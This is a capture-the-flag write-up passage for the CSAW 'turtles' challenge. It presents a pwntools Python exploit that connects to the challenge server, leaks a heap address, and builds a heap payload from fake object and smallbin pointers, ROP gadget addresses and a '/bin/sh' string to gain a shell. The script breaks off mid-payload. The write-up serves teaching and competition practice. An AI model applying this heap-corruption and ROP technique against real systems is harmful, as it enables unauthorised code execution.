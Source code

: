 
Awesome! I've never had so much fun exploiting turtles. Here is the final exploit code, after being cleaned up a bit. I've also included the code to write eight fake, freeable smallbins into 200 bytes of space on the heap, because I found that interesting and so might you.

```py
### exploit-turtles.py

from pwn import *
from time import sleep

# Helper functions to convert 64-bit addresses to strings and vice versa
pck = lambda x: struct.pack('Q', x)
unpck = lambda x: struct.unpack('Q', x)

# Helper function, adds null bytes to the end of a hex address so we can pack it
def append_nulls(str):
	n = len(str)
	for i in xrange(8 - n):
		str += '\x00'
	return str

local = False
if local:
    p=process('') # :-)
else:
    p = remote('pwn.chal.csaw.io', 9003)


print(p.recvuntil('0x'))
heap_addr_string = p.recvline()
print("turtle is at " + heap_addr_string)
HEAP_ADDR = int(heap_addr_string,16)


#### Read the location of printf in libc using ROP and a format string attack.
#
## This block of information gets copied to the heap.
#
payload = append_nulls(pck(HEAP_ADDR+0x40)) # point to fake turtle class
payload += append_nulls(pck(0x400d3c)) # ROP
payload += "/bin/sh\x00"
payload += append_nulls(pck(0x0))*3
payload += append_nulls(pck(0x400d3e)) # ROP
payload += append_nulls(pck(0x0))
payload += append_nulls(pck(0x601400)) # optional metaclass pointer
payload += append_nulls(pck(0x0))
payload += append_nulls(pck(0x400d3c)) # ROP
payload += append_nulls(pck(0x21))
payload += append_nulls(pck(0x0)) # fwd1
payload += append_nulls(pck(HEAP_ADDR+0x2c980)) # bck1
payload += append_nulls(pck(0x400d3c)) # &shellcode
payload += append_nulls(pck(0x400d3c)) # ROP
payload += append_nulls(pck(HEAP_ADDR+0x80)) # start of dtable, also &dtable
payload += append_nulls(pck(HEAP_ADDR+0x70)) # dtable: &shellcode (so +0x88 is &&shellcode)
payload += append_nulls(pck(0x0000000000007325)) # test format string: %s
payload += append_nulls(pck(0x0))
payload += append_nulls(pck(0x400d3c)) # ROP
payload += append_nulls(pck(0x0))
payload += append_nulls(pck(0xd2c)) # used during lookup, part of dtable
payload += append_nulls(pck(0x0))*2
#
## I have another 1864 bytes remaining, and the rest of this information stays on the stack.
#
# `0x0000000000400d43 : pop rdi ; ret`
```